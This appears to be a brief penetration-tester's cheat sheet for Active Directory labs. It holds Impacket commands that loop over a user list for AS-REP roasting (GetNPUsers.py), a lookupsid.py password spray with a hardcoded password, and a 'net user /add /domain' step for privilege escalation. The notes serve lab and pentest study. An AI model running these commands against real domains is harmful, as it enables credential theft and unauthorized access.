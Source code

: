 #### Where to find Domain
?????
#### GetNPUsers
Have list of users, spray for Kerberos ticket
```bash - kali
for user in $(cat users.txt); do GetNPUsers.py -no-pass -dc-ip $TARGET $DOMAIN$/${user} | grep -v Impacket; done
```
#### lookupsid
Have password, dictionary user spray
```bash - Kali
for user in $(cat users.txt); do lookupsid.py $DOMAIN/$user:'Secret0rg!'@172.31.1.4;done
```
#### quick win
If this works, follow [[1._Forest (E)#PrivEsc]]
```bash - kali
net user foo pass123 /add /domain
```
#### Username creator
[GitHub - urbanadventurer/username-anarchy: Username tools for penetration testing](https://github.com/urbanadventurer/username-anarchy)
#### Mindmap
https://www.xmind.net/m/5dypm8/#
